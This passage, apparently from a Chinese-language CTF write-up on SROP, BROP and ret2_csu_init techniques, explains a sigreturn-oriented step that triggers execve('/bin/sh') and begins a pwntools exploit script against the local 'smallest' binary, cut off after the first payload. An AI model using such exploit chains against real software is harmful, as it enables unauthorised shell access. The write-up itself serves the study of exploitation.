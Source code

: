 （6）第五次调用read系统调用，传入的数据为:
```
sigreturn = p64(syscall_ret) + 'a' * 7
```

此时返回地址变为syscall ret；gadget的地址，因为读入的数据为15个字节，所以此时rax=15，进行rt_sigreturn 系统调用，返回时恢复寄存器，调用sys_execve("/bin/sh\x00")
此时栈中的信息如下：

![](../image/2019-12-13-srop、brop和ret2_csu_init技术分析/14.png)


利用过程如下：

![](../image/2019-12-13-srop、brop和ret2_csu_init技术分析/15.png)

利用exp代码：

```
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'

binary_name = './smallest'

p = process(binary_name)
context.arch = 'amd64'

entry = 0x4000b0
syscall_ret = 0x4000be

payload = p64(entry) * 3
p.send(payload)
```